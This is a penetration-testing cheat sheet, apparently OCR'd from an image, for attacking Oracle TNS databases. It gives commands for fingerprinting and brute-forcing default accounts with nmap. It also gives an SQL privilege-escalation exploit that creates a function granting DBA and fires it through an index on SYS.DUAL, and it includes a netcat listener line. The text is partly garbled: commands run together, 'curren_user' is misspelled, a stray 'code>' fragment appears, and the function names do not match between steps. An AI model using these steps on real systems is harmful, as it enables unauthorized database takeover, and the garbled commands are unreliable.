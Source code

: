 Install tnscmd10g:

apt-get install tnscmd10g
Fingerprint oracle tns:

tnscmd10g version -h TARGETnmap --script=oracle-tns-version

#### **Brute force oracle user accounts**

Identify default Oracle accounts:

nmap --script=oracle-sid-brute  nmap --script=oracle-brute
Run nmap scripts against Oracle TNS:

nmap -p 1521 -A TARGET

#### **Oracle Privilege Escalation**

Requirements:

- Oracle needs to be exposed on the network
- A default account is in use like scott

Quick overview of how this works:

1. Create the function
2. Create an index on table SYS.DUAL
3. The index we just created executes our function SCOTT.DBA_X

4. The function will be executed by SYS user (as that’s the user that owns the table).

5. Create an account with DBA priveleges

In the example below the user SCOTT is used but this should be possible with another default Oracle account.

##### **Identify default accounts within oracle db using NMAP NSE scripts:**

nmap --script=oracle-sid-brute nmap --script=oracle-brute
Login using the identified weak account (assuming you find one).

##### **How to identify the current privilege level for an oracle user:**

SQL> select * from session_privs; SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid curren_user is pragma autonomous_transaction; begin execute immediate 'grant dba to user1 identified by pass1';commit;return 'FOO';end;

##### **Oracle priv esc and obtain DBA access:**

Run netcat: netcat -nvlp 443code>

SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));

##### **Run the exploit with a select query:**

SQL> Select * from session_privs;
You should have a DBA user with creds user1 and pass1.
